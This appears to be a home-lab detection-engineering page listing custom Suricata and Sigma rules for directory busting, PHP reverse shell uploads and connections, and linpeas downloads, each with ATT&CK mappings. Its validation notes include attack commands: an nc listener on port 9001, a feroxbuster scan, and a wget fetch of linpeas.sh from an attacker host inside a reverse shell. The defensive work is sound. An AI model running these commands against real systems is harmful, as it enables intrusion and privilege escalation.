

Web Server¶
This section documents custom suricata and sigma rules for my web server. Each item includes the ATT&CK technique, signal logic, and validation evidence.
Directory Busting (T1595.0031)¶
Suricata rule (inline):
alert http $HOME_NET any -> any any (msg:"WEB-APP possible directory busting"; flow:established,
to_client; http.stat_code; content:"301"; detection_filter:track by_dst, count 15, seconds 10;
classtype:web-application-attack; sid:100002; rev:2;)
Validation: Ran feroxbuster -u http://192.168.25.142 -w /usr/share/wordlists/dirbuster/directory-list.txt; alert fired and triaged.

Reverse Shell Upload (T1105 & T1190)¶
Sigma rule (inline):
title: 'Zeek HTTP Transfer of PHP File'
id: 7a2a8618-9b3c-4ace-bd19-270b4277fbbd
status: 'stable'
description: |
Alerts when Zeek logs show an HTTP-served file with MIME type "text/x-php" originating from 192.168.25.142. Useful for spotting potential webshell transfers.
author: 'Devin'
date: '2025/10/27'
logsource:
service: http
product: zeek
detection:
selection:
file.source: "HTTP"
server.ip: "192.168.25.142"
file.mime_type: "text/x-php"
source.ip: "192.168.25.130"
condition: selection
level: 'high'
Validation: Uploaded php reverse shell via the web app's file upload feature; alert fired and triaged. 
{kind=link}
Reverse Shell Connection (T1505.003 & T1071.001)¶
Sigma rule (inline):
title: 'Zeek Outbound TCP 9001 (Potential PHP Reverse Shell)'
id: 0339b149-5d4e-4b36-8b56-c99be0aab027
status: 'experimental'
description: |
Detects outbound TCP connections to port 9001 in Zeek conn logs, a common default for PHP reverse shells.
author: 'Devin'
date: '2025/10/27'
logsource:
service: http
product: zeek
detection:
selection:
network.transport: "TCP"
destination.port.keyword: "9001"
source.ip: "192.168.25.142"
condition: selection
level: 'high'
Validation: Ran nc -nvlp 9001 on kali and clicked on the php reverse shell file in the uploads directory; alert fired and triaged.

Download Linpeas (T1105)¶
Suricata rule (inline):
alert http $HOME_NET any -> any any ( msg:"LINUX linpeas download via wget"; flow:established,
to_server; http.user_agent; content:"Wget/"; nocase; classtype:policy-violation; sid:1157410;
rev:1;)
wget http://192.168.25.130/linpeas.sh from reverse shell; alert fired and triaged.